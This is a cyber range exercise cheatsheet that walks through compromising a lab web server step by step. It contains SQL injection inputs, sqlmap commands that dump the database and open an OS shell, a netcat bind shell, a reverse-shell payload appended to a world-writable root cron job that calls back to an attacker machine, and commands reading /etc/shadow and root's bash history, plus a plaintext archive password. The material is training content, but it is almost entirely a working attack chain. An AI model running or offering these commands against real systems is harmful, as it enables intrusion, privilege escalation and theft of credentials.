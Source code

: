 # CDIS Cyber Range | EU Cyber Attaché Exercise Cheatsheet

## 1) Identify the network services

```sh
nmap 10.0.3.193
```

## 2) Signup on the webpage

- `http://10.0.3.193/php/inscription.php`

## 3) Identify an old version of a webpage

- `http://10.0.3.193/php/recherche_old.php` 
  
## 4) Misuse input validation vulnerability

- Enter a single quote (`'`)  into the text field and press the button
- Enter `' or 1=1#` into the text field and press the button

## 5) Retrieve arbitrary data from the database through SQL injection

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`

### 5.1 Execute `sqlmap` to identify database names

```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```

### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database
```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

## 6) Grant the initial shell access

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami

hostname

pwd
```

### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami

pwd
```

### 6.6 Identify a file with a promising filename
```sh
cd ..

ls

ls /var/www/upload

# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip

unzip leaks.zip
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
```

## 7) Identify a vulnerable configuration

### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```

## 8) Escalate privileges to root

### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.13 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

cat /etc/shadow
```

## 9) Identify a plaintext password in the bash history  

### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history
```

### 9.2 Access the password-protected file
```sh
unzip -P "x5^#CNYK-Ng@MkHZR748" /home/emre/Downloads/leaks.zip
```
